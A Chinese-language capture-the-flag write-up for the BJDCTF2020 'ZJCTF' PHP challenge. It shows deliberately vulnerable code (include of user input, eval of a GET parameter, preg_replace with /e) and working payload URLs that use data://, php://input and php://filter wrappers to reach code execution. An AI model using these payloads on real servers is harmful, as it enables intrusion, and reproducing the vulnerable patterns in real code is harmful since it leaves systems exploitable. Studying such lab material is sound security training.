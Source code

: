 
## file_get_contents绕过，preg_match绕过
- [BJDCTF2020]ZJCTF，不过如此
```php
 <?php
error_reporting(0);
$text = $_GET["text"];
$file = $_GET["file"];
if(isset($text)&&(file_get_contents($text,'r')==="I have a dream")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        die("Not now!");
    }

    include($file);  //next.php
    
}
else{
    highlight_file(__FILE__);
}
?>
```
text参数要包含"I have a dream"，绕过方法有：
- 1.使用php://input伪协议绕过
将要GET的参数?xxx=php://input
用post方法传入想要file_get_contents()函数返回的值
- 2.data://伪协议绕过
将url改为：?xxx=data://text/plain;base64,想要file_get_contents()函数返回的值的base64编码
或者将url改为：?xxx=data:text/plain,(url编码的内容)

用data://绕过，file不能含有flag，使用php://filter 绕过，用base64输出就不会匹配到了payload:
```
?text=data://text/plain,I have a dream&file=php://filter/read/convert.base64-encode/resource=next.php
```
得到base64字符串，解码：
```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}

```
这里的PHP版本是：5.6.40，preg_replace()+/e存在代码执行漏洞
PHP正则表达式的逆向引用与子模式分析：https://blog.csdn.net/qq_20408491/article/details/75095055
```
/?text=data://text/pain,I have a dream&file=next.php&\S*=${phpinfo()}
```